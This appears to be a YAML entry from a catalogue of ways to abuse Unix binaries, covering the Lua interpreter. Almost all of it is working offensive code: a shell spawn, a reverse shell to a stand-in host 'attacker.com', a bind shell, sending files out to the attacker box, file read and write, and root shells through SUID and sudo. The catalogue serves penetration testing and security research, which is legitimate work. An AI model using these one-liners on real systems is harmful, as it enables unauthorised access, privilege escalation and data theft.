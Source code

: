 ```yaml
---
functions:
  execute-interactive:
    - code: lua -e 'os.execute("/bin/sh")'
  reverse-shell-non-interactive:
    - description: Run <code>nc -l -p 12345</code> on the attacker box to receive the shell. This requires `lua-socket` installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        lua -e 'local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  bind-shell-non-interactive:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires `lua-socket` installed.
      code: |
        export LPORT=12345
        lua -e 'local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  upload:
    - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires `lua-socket` installed.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        lua -e '
          local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  download:
    - description: Fetch remote file sent to a local TCP port. Run `nc target.com 12345
        < "file_to_send"` on the attacker box to send the file. This requires `lua-socket` installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        lua -e 'local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: lua -e 'local f=io.open("file_to_write", "wb"); f:write("data"); io.close(f);'
  file-read:
    - code: lua -e 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);'
  suid-limited:
    - code: ./lua -e 'os.execute("/bin/sh")'
  sudo-enabled:
    - code: sudo lua -e 'os.execute("/bin/sh")'
---
```

